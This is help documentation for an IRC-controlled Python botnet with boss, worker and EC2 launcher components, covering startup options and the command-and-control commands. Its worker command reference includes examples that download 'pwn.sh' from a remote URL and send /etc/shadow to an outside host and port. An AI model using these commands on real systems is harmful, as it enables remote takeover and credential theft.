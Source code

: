 .. _botnet:

BotNet Help
===========

Quick overview
--------------

The botnet is composed of two components, the boss and any number of workers.
The first step when using the botnet is to start up the boss.

Here is an example::

    python boss.py -c secretbotz -n daboss1 -x qwerty

This will start the boss using "#secretbotz" as the command channel.
The boss will be identified by the nickname "daboss1".  To auth with the boss
you will send it the message ``!auth qwerty``.  The default host is
irc.freenode.net and the default port is 6667, so it will use thoes values.  You
should be able to join #secretbotz using your IRC client and see "daboss1" just
chilling out::

    <cleifer> !auth qwerty
    <daboss1> Success

Next, start up any number of workers.  The workers will need to know the nick
of the command bot so they can register themselves and start accepting tasks::

    python worker.py -b daboss1

Now you should be able to ask daboss1 for some status and see that your worker
has been registered::

    <cleifer> !status
    <daboss1> 1 workers available
    <daboss1> 0 tasks have been scheduled

Let's execute a program on the worker machine::

    <cleifer> !execute run vmstat
    <daboss1> Scheduled task: "run vmstat" with id 1 [1 workers]
    <daboss1> Task 1 completed by 1 workers

What was the output of the command?

::

    cleifer> !print
    <daboss1> [w0rk3r:{alpha}] - run vmstat
    <daboss1> procs -----------memory---------- ---swap-- -----io---- -system-- ----cpu----
    <daboss1> r  b   swpd   free   buff  cache   si   so    bi    bo   in   cs us sy id wa
    <daboss1> 0  0      0 977784 504004 910144    0    0    46    29  103  443  3  1 96  0


The Boss
--------

The Boss is responsible for coordinating a given number of
worker bots.  The Boss is given a channel and a secret password,
when you join that channel and authenticate with the boss, you will
be able to issue commands to the workers::

    <you>  /join #secret-channel
    <you>  !auth my-password
    <boss> Success


Starting the Boss
^^^^^^^^^^^^^^^^^

``python boss.py [options]``

======  ============================ ====================
switch  meaning                      example
======  ============================ ====================
-s      server to connect to         -s irc.freenode.net
-p      port to connect on           -p 6667
-n      nickname to use for boss     -n boss1337
-x      secret used to auth          -x sshhh!
-c      c&c channel                  -c #secret-channel
-f      logfile                      -f /var/log/boss.log
-v      verbosity of logging (0 - 2) -v 1
======  ============================ ====================


The Worker
----------

The Worker is responsible for executing tasks you send to the boss.  The worker
communicates solely with the boss, executing tasks on the local machine and reporting
its results back when finished.  Behind-the-scenes the worker initialization looks
like this:

1. message the boss and ask to register (tries every 30s)
2. upon receiving confirmation, join the C&C channel with the other workers
3. work on tasks issued by the boss via the C&C channel, and report back results


Starting the worker
^^^^^^^^^^^^^^^^^^^

``python worker.py [options]``

======  ============================ ====================
switch  meaning                      example
======  ============================ ====================
-s      server to connect to         -s irc.freenode.net
-p      port to connect on           -p 6667
-n      base nickname for worker     -n worker
-b      nickname of boss *important* -b daboss1
-f      logfile for output           -f /var/log/worker.log
-v      verbosity of output 0 -2     -v 1
======  ============================ ====================


Launching a number of workers using EC2
---------------------------------------

The BotNet comes with a launcher to make it easy to spin up an arbitrary number
of workers using amazon's EC2.  This launcher requires `boto <https://github.com/boto/boto)>`_,
the python/aws library.

Example usage::

    # launch 10 workers pointing them at "daboss1"
    python launcher.py --workers=10 --boss=daboss1
    
    # show me the status of my workers
    python launcher.py show
    
    # terminate my workers, I'm done
    python launcher.py terminate

.. note::
    The launcher comes with a bootstrap script and is designed by default to use
    an Ubuntu 10.04 LTS 32-bit AMI in US-East.  The bootstrap script may need to
    be modified slightly if you intend to use a different AMI as the packages
    may be different.


Running the launcher
^^^^^^^^^^^^^^^^^^^^

The launcher takes a number of options, which instruct it which AMI to use, what
size instances to create, number of workers to spawn, etc.  It also takes all the
same parameters the worker takes, and passes those along to the workers it spawns.

===============  ============================   ====================
switch           meaning                        example
===============  ============================   ====================
--workers        number of workers to spawn     --workers=5
--quiet          no output                      --quiet
--script         custom bootstrap script        --script=my-custom-script.sh
--ami            AMI id to use                  --ami=ami-ab36fbc2
--key            AWS access key                 --key=foo
--secret         AWS secret access key          --secret=bar
--type           Instance size                  --type=t1.micro
--key-name       Security pair key name         --key-name=master-key
--group          Security group for instances   --group=default
===============  ============================   ====================


The following switches will be passed on to the workers launched by the launcher:

======  ============================   ====================
switch  meaning                        example
======  ============================   ====================
-s      server to connect to           -s irc.freenode.net
-p      port to connect on             -p 6667
-n      base nickname for worker       -n worker
-b      nickname of boss *important*   -b daboss1
-f      logfile for output             -f /var/log/worker.log
-v      verbosity of output 0 - 2      -v 1
======  ============================   ====================


Issuing commands to the BotNet
------------------------------

The BotNet comes with a number of commands pre-programmed.  Here are the steps for
running commands on your botnet, assuming you started our boss and worker in the following
manner::

    python boss.py -c secretbotz -n daboss1 -x qwerty
    python worker.py -b daboss1

1. Join the channel that you started the boss in and authenticate::

       <you>     /join #secretbotz
       <you>     !auth qwerty
       <daboss1> Success

2. Ask for status::

       <you>     !status
       <daboss1> 1 workers available
       <daboss1> 0 tasks have been scheduled

3. Run a command::

       <you>     !execute run vmstat
       <daboss1> Scheduled task: "run vmstat" with id 1 [1 workers]
       <daboss1> Task 1 completed by 1 workers

4. View result returned by worker::

       <you>     !print
       <daboss1> [w0rk3r:{alpha}] - run vmstat
       <daboss1> procs -----------memory---------- ---swap-- -----io---- -system-- ----cpu----
       <daboss1> r  b   swpd   free   buff  cache   si   so    bi    bo   in   cs us sy id wa
       <daboss1> 0  0      0 977784 504004 910144    0    0    46    29  103  443  3  1 96  0


Command reference
-----------------

==================================  ========================================================
Command                              Meaning
==================================  ========================================================
!auth <password>                     authenticate with the boss
!execute (num workers) <command>     execute the given command (optional, number of workers)
!print (task id)                     print output of tasks or task with id
!stop                                tell workers to stop their current task
!status                              get status on workers and tasks
!uptime                              boss uptime
!help                                display list of commands
==================================  ========================================================


Commands you can execute on workers
^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^

The following commands are available to workers using ``!execute``:

            
``run <program>``
    Run the given program on the worker's host.
    
    Example: ``!execute run vmstat``

``info``
    Get info about the host the worker is running on
    
    Example: ``!execute info``

``download <url>``
    Retrieve a remote file and store it in the working directory
    
    Example: ``!execute download http://my-awesome-script.com/pwn.sh``

``send_file <filename> <destination>``
    Send file at <filename> to given destination (host:port) -- this transers
    the raw data.
    
    Example: ``!execute send_file /etc/shadow some.fileserver.com:9001``

``ports``
    View what ports are open on the workers host
    
    Example: ``!execute ports``

``status``
    Return the workers queue size
    
    Example: ``!execute status``

``get_time <format>``
    Return the localtime from the workers host
    
    Example: ``!execute get_time``
